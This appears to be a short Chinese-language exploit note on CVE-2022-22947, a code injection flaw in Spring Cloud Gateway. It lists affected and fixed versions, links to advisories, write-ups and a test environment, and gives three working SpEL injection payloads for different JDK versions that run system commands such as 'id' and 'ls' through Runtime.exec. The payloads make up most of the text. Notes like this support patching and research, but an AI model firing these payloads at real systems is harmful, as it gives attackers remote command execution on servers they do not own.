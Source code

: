 ### CVE-2022-22947
jdk17
```
#{new java.util.Scanner(T(java.lang.Process).getMethod('getInputStream').invoke(T(java.lang.Runtime).getRuntime().exec(new String[]{'ls'}))).useDelimiter('\A').next().replace('\n',' ')}
```
jdk11
```
#{new java.util.Scanner(''.getClass().forName('java.lang.Runtime').getRuntime().exec('id').getInputStream()).useDelimiter('\\A').next().replace('\n',' ')}
```
另外的payload：
```
#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}
```
影响版本：
> org.springframework.cloud:spring-cloud-gateway-server
> [,3.0.7) [3.1.0,3.1.1) 

- https://tanzu.vmware.com/security/cve-2022-22947
- https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators
- https://blog.viettelcybersecurity.com/cve-2022-22947-spring-cloud-gateway-code-injection-vulnerability/
- https://wya.pl/2021/12/20/bring-your-own-ssrf-the-gateway-actuator/
- https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/
- https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947
- https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORKCLOUD-2415033


#### 测试环境
- https://github.com/wdahlenburg/spring-gateway-demo


修复版本：3.1.1
![image](https://user-images.githubusercontent.com/30398606/175478287-fb2babf6-b69d-4147-bbef-54f7d913e606.png)


受影响版本：
